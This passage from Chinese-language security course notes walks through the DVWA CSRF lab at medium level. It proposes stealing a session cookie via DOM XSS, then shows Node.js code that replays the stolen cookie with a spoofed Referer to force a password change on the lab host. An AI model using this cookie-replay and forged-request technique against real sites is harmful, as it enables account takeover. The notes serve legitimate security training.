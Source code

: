 $$
\text{Figure 3. Set Header}
$$

使用`Ajax`发送请求还会遇到跨域问题。

![CSRF](../../../img/课程笔记/网络安全/DVWA训练/4.DVWA_CSRF_All/4.cors.png)

$$
\text{Figure 4. CORS}
$$

也就是说，使用前端伪造请求可能会遇到各种障碍，我们就考虑用服务端来伪造请求。而使用服务端的话，我们就需要利用别的漏洞来窃取到用户的`Cookie`。

这里我们使用DOM XSS来窃取用户的`Cookie`，详情参考 [网络安全入门之跨站脚本攻击 DVWA XSS DOM Low to High](https://blog.csdn.net/qq_41729780/article/details/107131245) 这一篇博客。

那么假设我们现在已经窃取到了用户的Cookie

```javascript
"security=medium; PHPSESSID=8jkvdfa07u9jgornta8862b9d0"
```

在服务端使用`Node.js`的`request组件`发送HTTP请求。

```node
var request = require('request');
    const options = {
        url: 'http://9710fc76520cf9b2ff5ea67e0af9e0df.n1.vsgo.cloud:7147/web/vulnerabilities/csrf/?password_new=hackerPassword&password_conf=hackerPassword&Change=Change#',
        method: "GET",
        headers: {
            "Content-Type": "text/html;charset=utf-8",
            Referer: "http://9710fc76520cf9b2ff5ea67e0af9e0df.n2.vsgo.cloud",
            Cookie: "security=medium; PHPSESSID=8jkvdfa07u9jgornta8862b9d0"
        }
    };

function callback(error, response, body) {
    if (!error && response.statusCode == 200) {
        console.log("Success") // 请求成功的处理逻辑
        console.log(body) // 请求成功的处理逻辑
        console.log(typeof(body))
    } else {
        console.log("Error") // 请求失败的处理逻辑
        console.log(error) // 请求失败的处理逻辑
    }
}

var res = request(options, callback);
```

